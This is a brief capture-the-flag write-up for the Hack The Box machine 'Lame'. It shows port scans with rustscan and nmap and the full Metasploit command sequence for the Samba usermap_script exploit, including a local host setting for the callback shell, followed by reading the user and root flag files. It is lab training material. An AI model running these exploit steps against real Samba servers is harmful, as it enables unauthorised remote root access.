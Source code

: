 
# ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.3
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6efb5f15-da57-45bb-95c6-ec7ee47a2fa2)

```bash
nmap -A -p 21,22,139,445,332 10.10.10.3 -Pn
```

![Untitled](https://github.com/lufffe/Writeups/assets/90646635/6fcd0ee4-f89b-4ad0-a6f4-7aa9b87c7447)


### FTP - Nada Encontrado


![image](https://github.com/lufffe/Writeups/assets/90646635/02edc325-fa94-4adc-9310-acbc60314a50)

```bash
msfconsole
```

![image](https://github.com/lufffe/Writeups/assets/90646635/59827a74-da5a-42f9-af26-bf5dcdf666f3)

<aside>
💡 https://www.exploit-db.com/exploits/16320
</aside>

![image](https://github.com/lufffe/Writeups/assets/90646635/d61b302a-9f86-4b48-8ffc-946c8b6ff51c)

```bash
search username map script
```

![image](https://github.com/lufffe/Writeups/assets/90646635/30b28df0-9074-42e4-bd3e-b8470a448e65)

###  Metasploit

```bash
msf6 > use 1
```

```bash
msf6 exploit(multi/samba/usermap_script) > show options
```

```bash
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
```

```bash
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.17
```

```bash
msf6 exploit(multi/samba/usermap_script) > exploit
```

![image](https://github.com/lufffe/Writeups/assets/90646635/eaad40bd-1792-4292-90d4-d495e3843c7d)

pwd
/home/makis

```bash
cat user.txt
```

pwd /root/
```bash
cat /root/root.txt
```
